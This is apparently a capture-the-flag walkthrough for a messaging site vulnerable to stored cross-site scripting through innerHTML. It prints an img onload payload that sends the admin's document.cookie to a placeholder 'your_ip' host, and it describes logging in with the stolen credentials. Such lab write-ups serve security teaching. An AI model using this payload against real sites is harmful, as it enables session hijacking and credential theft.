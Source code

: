 ## Walkthrough
Sites that allow users to send each other messages are sometimes vulnerable to cross site scripting attacks. These attacks inject a script into a victim's browser using a message. This script often forces the victim's browser to navigate to a malicious website or to send the victim's personal information to the attacker.

One of the signs that this site is vulnerable to a xss attack is by looking at how it displays messages. By checking the "View Messages" page, you can see that it calls the populateMessages function in message.js after loading. The populateMessages function uses an ajax GET request with the user's username and password (from cookies). When the result is a 201, it adds the messages' subjects to the sidebar. Clicking the subject will cause the message to load in the main part of the screen. You can tell that this is vulnerable to a xss attack because it uses ".innerHTML = " to display the messages. This method simply inserts the message between the tags of an element, and there are no checks for if the message is HTML that will execute. For example, an element <code>&lt;p>&lt;/p></code> that calls <code>el.innerHTML = '&lt;img src="http://www.vanderbilt.edu/asset/i/facebook-vanderbilt.jpg" onload="alert(1)" />'</code> will show an alert with the message "1".

Since you are able to message the admin, you can send them a message <code>&lt;img src="http://www.vanderbilt.edu/asset/i/facebook-vanderbilt.jpg" onload=window.location="http://your_ip?cookie=" + document.cookie /></code>. When the admin opens the message, their browser will be directed to the site that you specified. You will have already set up this site to save the cookie parameter of the query of any requests that it receives. One example is to set up a very simple Node.js server (like this one) that has a GET on "/" and will save the "cookie" query parameter to a file. Since you have the admin's cookie, you have the admin's username and password since we already know that the username and password must be in the cookies from the populateMessages function. You are able to login as the admin and view the flag.
